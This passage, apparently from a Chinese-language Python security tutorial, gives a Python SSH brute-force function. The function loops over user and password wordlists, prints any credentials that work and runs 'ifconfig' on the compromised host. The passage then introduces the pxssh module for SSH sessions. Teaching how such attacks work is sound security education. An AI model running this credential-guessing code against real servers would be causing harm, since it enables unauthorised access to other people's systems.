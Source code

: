 ```py
 def startSSHBruteForce(self,host): try:
            #open files dictionary
            users_file = open("users.txt")
            passwords_file = open("passwords.txt")
            for user in users_file.readlines():
                for password in passwords_file.readlines():
                    user_text = user.strip("\n")
                    password_text = password.strip("\n")
                    try:
                    #check connection with user and password
                        response = self.ssh_connect(host,user_text,password_text)
                        if response == 0:
                            print("[*] User: %s [*] Pass Found:%s" %(user_text,password_text))
                            stdin,stdout,stderr = self.ssh.exec_command("ifconfig")
                            for line in stdout.readlines():
                                print(line.strip())
                            sys.exit(0)
                        elif response == 1:
                            print("[*]Login incorrect")
                        elif response == 2:
                            print("[*] Connection could not be established to %s" %(host))
                            sys.exit(2)
                except Exception as e:
                    print("Error ssh connection")
                    pass
            #close files
            users_file.close()
            passwords_file.close()
        except Exception as e:
            print("users.txt /passwords.txt Not found")
            pass
```

# 使用 pxssh 进行 SSH 连接

`pxssh`是一个基于 Pexpect 的 Python 模块，用于建立 SSH 连接。它的类扩展了`pexpect.spawn`，以专门设置 SSH 连接。

`pxssh`是一个专门的模块，提供了特定的方法来直接与 SSH 会话交互，比如`login()`，`logout()`和`prompt()`。

**pxssh 文档**

我们可以在`readthedocs`网站上找到`Pexpect`模块的官方文档，网址为[`pexpect.readthedocs.io/en/stable/api/pxssh.html.`](https://pexpect.readthedocs.io/en/stable/index.html)

此外，我们可以使用 Python 终端的`help`命令获取更多信息：

```py
 import pxssh
 help(pxssh)
```

# 在远程 SSH 服务器上运行命令
